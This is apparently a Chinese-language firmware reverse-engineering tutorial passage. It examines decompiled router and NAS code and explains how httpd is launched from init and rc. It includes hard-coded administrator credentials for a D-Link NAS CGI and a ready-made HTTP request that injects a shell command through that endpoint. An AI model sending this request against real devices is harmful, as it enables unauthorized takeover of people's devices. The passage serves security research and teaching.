 ```c
        strcpy(&dest, (const char *)&v9);
        v7 = (const char *)sub_1603C(&dest, &s);
        return (struct passwd *)(strcmp(v7, &s) == 0);
    }
    {...}
}
```

可以看到代码中包含了一个管理员凭据(用户名/密码)，还是用了危险函数，结合硬编码可以构造命令注入：

```http
GET /cgi-bin/nas_sharing.cgi?dbg=1&cmd=51&user=mydlinkBRionyg&passwd=YWJjMT
IzNDVjYmE&start=1&count=1;{your cmd};
```

这种漏洞比较直观



### httpd的启动

+ 在/etc/init*相关初始化脚本中启动
+ 在init进程中启动

以在某路由器中init程序为例。在sbin中存在很多指向cr的链接文件，其中init启动了我们较为关注的服务：

来逆向以下rc程序：

```c
  pcVar1 = strrchr(*param_2,0x2f);
  __haystack = pcVar1 + 1;
  if (pcVar1 == (char *)0x0) {
    __haystack = *param_2;
  }
  pcVar1 = strstr(__haystack,"init");
  if (pcVar1 != (char *)0x0) {
    INIT();				//通过链接文件的名字启动对应函数
    return 0;
  }
  pcVar1 = (char *)nvram_get("time_zone");
  if (pcVar1 == (char *)0x0) {
    pcVar1 = "";
  }
```

继续看INIT():

```C
void INIT(void)

{
  char *__nptr;
  undefined *local_c;
  
  local_c = &_gp;
  setup_1();
  signal_init();
  signal(1,(__sighandler_t)&LAB_00406314);
  signal(0x10,(__sighandler_t)&LAB_00406314);
  signal(0x11,(__sighandler_t)&LAB_00406314);
  signal(2,(__sighandler_t)&LAB_00406314);
  signal(0xe,(__sighandler_t)&LAB_00406314);
  sigemptyset((sigset_t *)&stack0xffffff28);
  if (DAT_100000c4 == 0) {
    run_shell(1,0);
  }
  __nptr = (char *)nvram_get("boardflags");		//<====nvram系列函数
  if (__nptr == (char *)0x0) {
    __nptr = "";
```